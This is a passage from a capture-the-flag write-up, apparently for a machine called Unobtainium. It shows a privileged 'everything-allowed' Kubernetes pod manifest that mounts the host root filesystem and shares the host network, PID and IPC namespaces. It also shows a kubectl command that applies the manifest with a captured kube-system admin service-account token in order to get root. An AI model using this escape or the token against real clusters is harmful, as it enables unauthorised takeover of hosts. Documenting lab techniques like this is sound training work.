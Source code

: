 Download the `yaml` to our local machine and edit it, then following the badpods method we create our pod then execute on it to get our root flag!

![../../assets/images/unobtainium/Untitled_29.png](../../assets/images/unobtainium/Untitled_29.png)

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  namespace: default
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
    - name: everything-allowed-pod
      image: http://localhost:5000/dev-alpine
      securityContext:
        privileged: true
      volumeMounts:
        - mountPath: /host
          name: noderoot
      command: ["/bin/sh", "-c", "--"]
      args: ["while true; do sleep 30; done;"]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
    - name: noderoot
      hostPath:
        path: /
```

```bash
./kc --token eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow apply -f everything-allowed-exec-pod.yaml
```
